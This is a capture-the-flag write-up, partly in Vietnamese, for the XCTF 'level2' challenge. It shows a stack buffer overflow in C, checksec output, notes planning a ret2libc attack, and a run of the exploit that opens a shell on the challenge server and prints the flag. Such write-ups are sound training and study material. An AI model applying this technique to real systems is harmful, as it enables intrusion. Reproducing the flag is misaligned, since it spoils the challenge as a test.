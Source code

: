 # XCTF - PWN Exercise - level2

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ checksec level2   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/1_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

ham read cho nhap 0x100 = 256 ma buf[136]
-> khong co ham chien thang nhu flag hay thuc thi shell
-> PIE khong bat nen su dung ret2libc
-> ret ve shell 
-> tim system, exit va shell

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 63253: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level2
lib
lib32
lib64
$ cat flag
cyberpeace{a47dd0c3f651ec778da26ae79c5c255a}
$  
```

